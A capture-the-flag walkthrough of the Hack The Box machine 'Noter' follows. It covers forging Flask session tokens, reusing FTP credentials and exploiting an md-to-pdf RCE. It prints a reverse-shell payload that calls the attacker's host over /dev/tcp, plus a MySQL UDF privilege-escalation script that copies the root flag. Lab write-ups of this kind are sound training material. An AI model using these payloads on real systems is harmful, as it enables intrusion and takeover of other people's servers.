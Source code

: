 


## Noter Machine
<p align="center">
<img src="./img/box.png" allign="center" alt="Logo">
</p>

### Machine Stats :

<img src="./img/stats.png">



#### Walkthrough :

I started as always by scanning the machine ports :

<img src="./img/0.png">

* SSH on port 22.

* FTP on 21.

* A webserver on port 5000.


I tried anonymous login on ftp but that didn't work. So i decided to look at the web server on port 5000. It was a flask web app that provides users with a database to store and manage notes.

<img src="./img/2.png">

Trying common logins and passwords (admin:admin, *:*, root:root ...) or trigering an SQL error wasn't fruitful.
So i decided to register a user Tom to be able to further explore the app.

<img src="./img/3.png">


While inspecting the intercepted requests on burp, i found out that a session token (looks like JWT) is used.
I decoded it with jwt.io which revealed an awkward payload and an interesting header.

<img src="./img/4.png">

It wasn't actually a typical jwt which often looked more like this (with a valid signature):

<img src="./img/5.png">

I figured out that it was a flask token thanks to Carlos Polop's HackTricks (https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask/).
Using flask_unsign with a rockyou.txt as a wordlist was good enough to reveal the secret.


<img src="./img/6.png">

I'm now able to craft my own tokens using the same tool to bruteforce usernames.
All i needed was a bash script and a good wordlist to generate my tokens:

<img src="./img/7.png">

I used ffuf using my generated tokens as a session value and there was 2 200 HTTP responses (A wrong token redirects to /login).

<img src="./img/8.png">

A username "user" which was useless and another one named "blue" which actually had some stored notes.

One note written by ftp_admin exposed the ftp username and password of blue.

<img src="./img/9.png">

I used these creds to access ftp on port 21. It had an empty directory and a pdf file which exposed the comapany's password policy.
Reading only the title, i thought i only had some additional specifications making password guessing easier, but it actually specified the way default passwords are generated.

<img src="./img/11.png">

I tried to ftp using user:user@Noter! but it failed it made me think that it was just an account created by another HTB player.(i was so desperate that i tried root:root@Noter! too)
But there was a potential username which i didn't used yet, so i decided to give it a shot.
ftp_admin:ftp_admin@Noter! was the one.

<img src="./img/12.png">

i downloaded and decompressed the zip files and now i finally have the app's source code xD.

<img src="./img/13.png">

the app.py file had the database credentials

<img src="./img/14.png">

Through the templates folder, i discovered hidden paths import_note and export_note which looked promising with the "Export directly from cloud" feature.


<img src="./img/15.png">

It's backend code was in md_to_pdf.js. And Google proved again that it's my best friend, revealing an RCE vulnerability:

<img src="./img/16.png">

The only proof of concept i found was a local one :

<img src="./img/17.png">

But in my case i hosted a markdown file (.md) with a reverse shell payload:

``` ---js\n((require("child_process")).execSync("bash -i >& /dev/tcp/10.10.14.43/4444 0>&1"))\n--- ```

I prepared my listener and requested my malicious md file (http://10.10.14.43:80/a.md) from th vulnerable server to trigger the rce but it didn't work, i didn't catch a shell. 

<img src="./img/18.png">

I had this problem before and i thought i had a trick to fix it which was wrapping the revshell in bash -c ''.
It was better but i still didn't get an interactive shell.

<img src="./img/19.png">

Looking again at the public proof of concept i had an idea of seperating the shell and the rce payload.
And successfully got a shell.

<img src="./img/20.png">

Running linpeas revealed an open mysql port and i already have the root creds.
After some searching i found this Privilege Escalation with MySQL User Defined Functions:

<img src="./img/22.png">

I downloaded the library compiled it and made a text file containing the payload to copy the root flag to /tmp and make it readable.

``` 
use mysql;
create table foo(line blob);
insert into foo values(load_file('/tmp/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('cp /root/root.txt /tmp; chown svc svc /tmp/root.txt;');
 ```

And now i have the root flag.

<img src="./img/23.png">


Made by Fckroun with <3